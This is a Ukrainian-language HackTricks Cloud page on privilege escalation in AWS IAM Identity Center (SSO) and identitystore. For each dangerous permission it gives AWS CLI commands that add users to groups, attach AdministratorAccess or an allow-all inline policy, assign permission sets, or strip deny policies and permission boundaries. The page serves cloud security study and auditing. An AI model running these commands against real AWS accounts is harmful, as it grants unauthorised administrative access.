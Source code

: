 # AWS - Привілеї в AWS SSO та identitystore

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>

## Центр ідентичності AWS / AWS SSO

Для отримання додаткової інформації про Центр ідентичності AWS / AWS SSO перегляньте:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Зверніть увагу, що за **замовчуванням** лише **користувачі** з дозволами **від Облікового запису управління** зможуть отримати доступ та **керувати центром ідентичності IAM**.\
Користувачі з інших облікових записів можуть це зробити лише у випадку, якщо обліковий запис є **Делегованим адміністратором.**\
[Перевірте документацію для отримання додаткової інформації.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Скидання пароля~~

Простий спосіб підвищення привілеїв у таких випадках - мати дозвіл на скидання паролів користувачів. На жаль, можливо лише надіслати електронного листа користувачеві для скидання його пароля, тому вам знадобиться доступ до електронної пошти користувача.

### `identitystore:CreateGroupMembership`

З цим дозволом можна додати користувача до групи, щоб він успадковував всі дозволи групи.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цим дозволом може надати додаткові дозволи для набору дозволів, який надається користувачеві під його контролем
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цим дозволом може надати додаткові дозволи для Permission Set, який надається користувачеві під його контролем

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цим дозволом може надати додаткові дозволи для набору дозволів, який наданий користувачеві під його контролем.

{% hint style="warning" %}
Для зловживання цими дозволами у цьому випадку вам потрібно знати **назву керованої клієнтом політики, яка знаходиться у ВСІХ облікових записах**, які будуть затронуті.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

Зловмисник з цим дозволом може надати набір дозволів користувачеві під своїм контролем для облікового запису.
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

Повертає STS короткострокові облікові дані для вказаної назви ролі, яка призначена користувачеві.
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Проте вам потрібен токен доступу, який я не впевнений, як отримати (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Атакуючий з цим дозволом може видалити асоціацію між керованою політикою AWS від вказаного набору дозволів. Є можливість надати більше привілеїв шляхом **від'єднання керованої політики (відмовна політика)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Зловмисник з цим дозволом може видалити асоціацію між керованою клієнтом політикою з вказаним набором дозволів. Є можливість надати більше привілеїв шляхом **відокремлення керованої політики (політики відмови)**.

{% endcode %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

Зловмисник з цим дозволом може видалити дозволи з вбудованої політики з набору дозволів. Є можливість надати **більше привілеїв, відкріпивши вбудовану політику (політику відмови)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
### `sso:DeletePermissionBoundaryFromPermissionSet`

Зловмисник з цим дозволом може видалити межу дозволу з набору дозволів. Це може дозволити **отримати більше привілегій, видаливши обмеження на набір дозволів**, наданих від межі дозволу.
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити свою **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
